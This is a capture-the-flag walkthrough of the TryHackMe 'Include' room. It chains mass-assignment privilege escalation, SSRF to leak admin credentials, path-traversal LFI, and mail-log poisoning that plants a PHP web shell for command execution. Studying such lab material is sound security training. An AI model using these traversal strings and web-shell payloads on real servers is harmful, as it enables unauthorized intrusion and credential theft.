








> [!info]
> - [Include](https://tryhackme.com/room/include)
> - Difficulty: medium
> - Platform: web, linux
>
> This challenge is an initial test to evaluate your capabilities in web pentesting, particularly for server-side attacks.
>
> Even if it's not accessible from the browser, can you still find a way to capture the flags and sneak into the secret admin panel?
>
> Answer the questions below
> 1. What is the flag value after logging in to the SysMon app?
> 2. What is the content of the hidden text file in `/var/www/html`?

This room acts as a final challenge for the advanced server-side attacks module. Vulnerabilities explored:

- Broken object property level authorization (BOPLA)
- Information disclosure
- SSRF
- LFI2RCE via log poisoning

 

## Information gathering

I started with a port scan:

```bash
$ sudo nmap -sS -vv -T4 MACHINE_IP

PORT      STATE SERVICE  REASON         VERSION
22/tcp    open  ssh      syn-ack ttl 61 OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
25/tcp    open  smtp     syn-ack ttl 61 Postfix smtpd
110/tcp   open  pop3     syn-ack ttl 61 Dovecot pop3d
143/tcp   open  imap     syn-ack ttl 61 Dovecot imapd (Ubuntu)
993/tcp   open  ssl/imap syn-ack ttl 61 Dovecot imapd (Ubuntu)
995/tcp   open  ssl/pop3 syn-ack ttl 61 Dovecot pop3d
4000/tcp  open  http     syn-ack ttl 61 Node.js (Express middleware)
50000/tcp open  http     syn-ack ttl 61 Apache httpd 2.4.41 ((Ubuntu))
Service Info: Host:  mail.filepath.lab; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

There are lots of open ports: SSH, two web apps, and a mail server.

The first web app running on port 5000 is a SysMon portal. We need to find a way into it to get the first flag.



The second web app is running on port 4000.



Here, I almost missed the big "Sign In using guest/guest" phrase.

## Privilege escalation via mass assignment vulnerability

Logging in with guest credentials displays several profiles. Current user profile exposes a lot of properties which can be considered [an excessive data exposure part of BOPLA](https://owasp.org/API-Security/editions/2023/en/0xa3-broken-object-property-level-authorization/) vulnerability. And there is a form which allows adding new properties.



The form is vulnerable to the BOPLA's mass assignment attack, so I used it to escalate current user privileges to the administrator by changing value of `isAdmin` property.



> [!note]
> Some writeups call this prototype pollution vulnerability, which is incorrect: we don't modify object prototype here.

## Getting admin credentials via SSRF

After successful privilege escalation, the page has two new links: "API" and "Settings".


On "API" page there is information about how to access internal APIs; one endpoint allows getting administrator credentials.

```
API Dashboard

Below is a list of important APIs accessible to admins with sample requests and responses:

Internal API

GET http://127.0.0.1:5000/internal-api HTTP/1.1
Host: 127.0.0.1:5000

Response:
{
    "secretKey": "superSecretKey123",
    "confidentialInfo": "This is very confidential."
}

Get Admins API

GET http://127.0.0.1:5000/getAllAdmins101099991 HTTP/1.1
Host: 127.0.0.1:5000

Response:
{
    "ReviewAppUsername": "admin",
    "ReviewAppPassword": "xxxxxx",
    "SysMonAppUsername": "administrator",
    "SysMonAppPassword": "xxxxxxxxx",
}
```

"Settings" page allows changing banner image by providing URL.



This page is vulnerable to SSRF attack. Instead of image URL I provided credentials endpoint:



The page includes the response in base64 encoded format:



I used CyberChef to decode it:

```
data:application/json; charset=utf-8;base64,eyJSZXZpZXdBcHBVc2VybmFtZSI6ImFkbWluIiwiUmV2aWV3QXBwUGFzc3dvcmQiOiJhZG1pbkAhISEiLCJTeXNNb25BcHBVc2VybmFtZSI6ImFkbWluaXN0cmF0b3IiLCJTeXNNb25BcHBQYXNzd29yZCI6IlMkOSRxazZkIyoqTFFVIn0= 

---

{"ReviewAppUsername":"admin","ReviewAppPassword":"REDACTED","SysMonAppUsername":"administrator","SysMonAppPassword":"REDACTED"}
```

## First flag

With these credentials I logged into SysMon app and got the first flag.




## LFI2RCE via log poisoning

Profile picture on the dashboard has a curious `src`:

```html

```

To check whether it is vulnerable to local file inclusion I used `ffuf`:

```
$ ffuf -r -c -request req -request-proto 'http' -w /usr/share/wordlists/seclists/Fuzzing/LFI/LFI-Jhaddix.txt -fs 0
...
....//....//....//....//....//....//....//....//....//....//etc/passwd [Status: 200, Size: 2231, Words: 20, Lines: 42, Duration: 100ms]
....//....//....//....//....//....//....//....//....//etc/passwd [Status: 200, Size: 2231, Words: 20, Lines: 42, Duration: 100ms]
```

Since the second flag is found on the file system, I guessed I needed to achieve LFI2RCE. Initially, I unsuccessfully attempted Apache log poisoning.

Remembering that there was a mail server, I tried [mail log poisoning](https://swisskyrepo.github.io/PayloadsAllTheThings/File%20Inclusion/LFI-to-RCE/#rce-via-mail). First, I confirmed that the file `/var/log/mail.log` can be accessed.

```
http://MACHINE_IP:50000/profile.php?img=....//....//....//....//....//....//....//....//....//var/log/mail.log
```

Next, to poison the log, I sent PHP code payload as an address:

```
$ telnet MACHINE_IP 25
...
220 mail.filepath.lab ESMTP Postfix (Ubuntu)
helo ok
250 mail.filepath.lab
mail from: <?php system($_GET["cmd"]); ?>
501 5.1.7 Bad sender address syntax
quit
221 2.0.0 Bye
Connection closed by foreign host.
```

Now we can use `cmd` parameter to run commands on the system.

## Second flag

While it's possible to [start a reverse shell and get access to the entire system](https://jaxafed.github.io/posts/tryhackme_include/#log-poisoning-to-rce), I simply listed files:

```
http://MACHINE_IP:50000/profile.php?img=....//....//....//....//....//....//....//....//....//var/log/mail.log&cmd=ls 
```

And then used LFI again to get the content of the flag file:

```
http://MACHINE_IP:50000/profile.php?img=....//....//....//....//....//....//....//....//....//var/www/html/REDACTED.txt 
```

